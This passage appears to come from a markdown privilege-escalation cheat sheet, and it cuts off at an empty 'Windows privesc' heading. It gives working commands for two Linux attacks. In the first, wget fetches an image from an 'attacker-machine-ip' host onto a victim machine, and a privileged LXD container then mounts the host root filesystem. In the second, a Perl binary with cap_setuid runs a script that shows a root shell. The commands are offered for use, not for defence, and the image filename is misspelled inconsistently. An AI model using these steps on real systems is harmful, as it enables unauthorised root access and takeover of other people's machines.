 *download the `apline-v3.10-x86_64-someting.tar.gz` file to victim machine*
```shell
cd /tmp
wget http://attacker-machine-ip:8000/apline-v3.10-x86_64-someting.tar.gz
```

*import the lxc image*
```shell
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
```

*check the lxc image*
```
lxc image list
```

*run these commands on target machine*
```shell
lxc init
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

# Perl setuid capability privesc

* if the `perl` has the `cap_setuid+ep` permission set.
* then it means `perl` has capability of changing `UID`.
```shell
akrech@akr3ch:/tmp$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
* create a perl file
```perl
akrech@akr3ch:/tmp$ cat root.pl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
```
akrech@akr3ch:/tmp$ ./root.pl
root@akr3ch:/tmp# id
uid=0(root) gid=1000(akrech) groups=1000(akrech)
```

# Windows privesc
